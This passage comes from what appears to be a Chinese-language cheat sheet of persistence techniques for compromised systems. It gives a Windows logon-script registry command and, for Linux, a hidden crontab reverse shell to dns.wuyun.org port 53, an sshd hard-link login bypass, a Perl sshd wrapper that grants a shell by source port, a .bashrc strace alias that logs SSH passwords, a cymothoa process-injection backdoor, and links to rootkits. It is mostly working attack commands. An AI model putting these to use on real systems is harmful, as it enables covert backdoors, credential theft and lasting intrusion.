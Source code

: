 ##### 29、[Logon Scripts](https://3gstudent.github.io/3gstudent.github.io/Use-Logon-Scripts-to-maintain-persistence/) 
```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```
##### 30、[Password Filter DLL](https://3gstudent.github.io/3gstudent.github.io/Password-Filter-DLL%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%E5%BA%94%E7%94%A8/) 
##### 31、[利用BHO实现IE浏览器劫持](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8BHO%E5%AE%9E%E7%8E%B0IE%E6%B5%8F%E8%A7%88%E5%99%A8%E5%8A%AB%E6%8C%81/) 
        
#### Linux 
##### crontab 
每60分钟反弹一次shell给dns.wuyun.org的53端口
```
#!bash
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```
##### 硬链接sshd 
```
#!bash
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;
```
链接：ssh root@192.168.206.142 -p 2333
##### SSH Server wrapper 
```
#!bash
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
//不用重启也行
/etc/init.d/sshd restart
```
```
socat STDIO TCP4:192.168.206.142:22,sourceport=13377
```
##### SSH keylogger 
vim当前用户下的.bashrc文件,末尾添加
```
#!bash
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
```
source .bashrc
##### Cymothoa_进程注入backdoor 
```
./cymothoa -p 2270 -s 1 -y 7777
```
```
nc -vv ip 7777
```
##### rookit 
[openssh_rookit](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz)
[Kbeast_rootkit ](http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz)
Mafix + Suterusu rookit
##### Tools： 
[Vegile ](https://github.com/Screetsec/Vegile)
[backdoor ](https://github.com/icco/backdoor)